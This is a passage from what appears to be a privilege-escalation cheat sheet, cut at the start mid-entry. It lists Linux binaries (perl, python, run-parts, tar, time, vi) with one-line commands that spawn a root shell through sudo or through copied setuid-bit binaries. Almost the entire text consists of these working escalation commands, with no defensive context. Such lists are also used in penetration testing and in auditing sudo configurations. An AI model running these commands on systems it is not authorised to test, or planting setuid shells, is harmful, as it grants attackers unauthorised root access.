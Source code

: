 ```
sudo sh -c 'cp $(which perl) .; chmod +s ./perl'

./perl -e 'exec "/bin/sh";'
```
# PYTHON
### SUDO
```
sudo python -c 'import os; os.system("/bin/sh")'
```
### SUID
```
sudo sh -c 'cp $(which python) .; chmod +s ./python'

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
# RUN-PARTS
### SUDO
```
sudo run-parts --new-session --regex '^sh$' /bin
```
### SUID
```
sudo sh -c 'cp $(which run-parts) .; chmod +s ./run-parts'

./run-parts --new-session --regex '^sh$' /bin --arg='-p'
```
# TAR
### SUDO
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
### SUID
```
sudo sh -c 'cp $(which tar) .; chmod +s ./tar'

./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
# TIME
### SUDO
```
sudo /usr/bin/time /bin/sh
```
### SUID
```
sudo sh -c 'cp $(which time) .; chmod +s ./time'

./time /bin/sh -p
```
# VI
### SUDO
```
sudo vi -c ':!/bin/sh' /dev/null
```